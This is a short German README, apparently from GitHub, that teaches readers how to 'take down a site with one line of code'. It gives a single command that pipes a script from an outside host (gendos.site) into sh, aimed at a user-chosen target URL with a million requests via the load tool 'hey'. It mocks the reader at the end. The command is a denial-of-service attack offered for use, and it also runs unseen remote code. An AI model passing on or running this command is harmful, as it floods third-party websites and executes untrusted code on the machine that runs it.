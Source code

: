 # Hoppsgenommen asa7be


Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite mit einer Zeile code nimmt?

Dann bist du hier genau richtig !


Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

![repl.it how to make bash](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/replit.png)

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de%20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

![Test run with the script and args set to ddostest.me](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/ddostestme.png)

PS.: Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) für den Befehl oben 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.

Proudly presented by Hoppsgenommen.de:

![Hoppsgenommen du lappen](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/g102.png)
